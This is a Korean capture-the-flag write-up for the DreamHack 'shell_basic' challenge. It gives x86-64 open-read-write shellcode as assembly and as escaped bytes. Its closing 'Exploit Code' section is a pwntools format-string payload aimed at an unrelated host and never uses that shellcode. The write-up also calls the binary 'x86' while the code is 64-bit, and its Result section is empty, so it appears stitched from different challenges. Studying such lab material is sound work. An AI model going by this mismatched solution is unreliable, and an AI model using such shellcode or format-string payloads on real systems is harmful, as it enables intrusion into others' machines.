 ```yaml
---
title:  "[DreamHack] shell_basic 풀이"
categories:
    - Pwnable
tags:
    - dreamhack.io
toc: true
published: true
---
```

[DreamHack] shell_basic 풀이

# Environments

|Name|Config|
|:---:|:---|
|CPU|Intel Core i7 4770|
|Architecture|Intel64|
|OS|Ubuntu 16.04.7 LTS|
|Tools|- Pwntools|

# Problem
![](/assets/DreamHack/shell-basic-00.png)
```
Print `shellcode: `
Get Input
```

- URL: [dreamback.io/wargame/challenges/410](https://dreamhack.io/wargame/challenges/410/)
- 요약: `shell_basic` 및 서버로부터 ORW를 통해 flag 찾기

# File Format
![](/assets/HCTF/shell-basic-01.png)

> x86 ELF LSB Executable, Not Stripped, Not UPX Packed

# checksec

|Name|Status|
|:---:|:---|
|CANARY|disabled|
|FORTIFY|disabled|
|NX|ENABLE|
|PIE|ENABLE|
|RELRO|FULL|

- Can't overwrite GOT, NX Bypass with ROP

# Solution
Shell Code 와 친숙해지고, ORW에 대한 전반적인 이해를 위한 간단한 문제 같다.

공부한 내용을 바탕으로 문제에서 요구하는 것을 짜보았다. 사실 Flag 위치...를 8바이트로 짜르기 귀찮아서...질문글 몇개 염탐해서 Stack에 넣을 값을 좀 훔쳐왔다(?)

## shell_basic.asm
```
section .text
global _start
_start:
    ; Push and Open
    mov rax, 0x676E6F6F6F6F6F6F ; push 'oooooong'
    push rax
    mov rax, 0x6C5F73695F656D61 ; push 'ame_is_l'
    push rax
    mov rax, 0x6E5F67616C662F63 ; push 'c/flag_n'
    push rax
    mov rax, 0x697361625f6c6c65 ; push 'ell_basi'
    push rax
    mov rax, 0x68732f656d6f682f ; push '/home/sh'
    push rax
    mov rdi, rsp    ; rdi = "/home/shell_basic/flag_name_is_loooooong"
    xor rsi, rsi    ; rsi = 0 ; RD_ONLY
    xor rdx, rdx    ; rdx = 0
    mov rax, 2      ; rax = 2 ; syscall_open
    syscall         ; open("/home/shell_basic/flag_name_is_loooooong", RD_ONLY, NULL)

    ; Read, len 
    mov rdi, rax      ; rdi = fd, rdi has len value from Open syscall
    mov rsi, rsp
    sub rsi, 0x30     ; rsi = rsp-0x30 ; buf
    mov rdx, 0x30     ; rdx = 0x30     ; len
    mov rax, 0x0      ; rax = 0        ; syscall_read
    syscall           ; read(fd, buf, 0x30)

    ; Write
    mov rdi, 1        ; rdi = 1 ; fd = stdout
    mov rax, 0x1      ; rax = 1 ; syscall_write
    syscall           ; write(fd, buf, 0x30)

    ; Exit
    mov rax, 0x3C     ; rax = 60
    mov rdi, 0        ; rdi = 0
    syscall           ; exit
```

## shell_basic.o
asm 파일이 완성되었다면 이제 `.o` 파일로 기계어화 시켜야 한다.

`nasm -f elf64 shell_basic.asm` 명령을 통해 가능 하다.

## shell_basic.bin
`objcopy --dump-section .text=shell_basic.bin shell_basic.o` 명령을 통해 Byte Code 화 한다.

## exevc Shell Code
![](/assets/DreamHack/shell-basic-02.png)

이제 나온 값을 열심히 필요하지 않은 것들을 쳐낸다.

```
\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb8\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\xba\x30\x00\x00\x00\xb8\x00\x00\x00\x00\x0f\x05\xbf\x01\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05\xb8\x3c\x00\x00\x00\xbf\x00\x00\x00\x00\x0f\x05
```


# Exploit Code
```
from pwn import *
context.log_level = "DEBUG"

p = remote("ctf.j0n9hyun.xyz",3002)
payload = p32(0x804a00c) + "%134514096x%n"

p.sendline(payload)
p.interactive()
```

# Result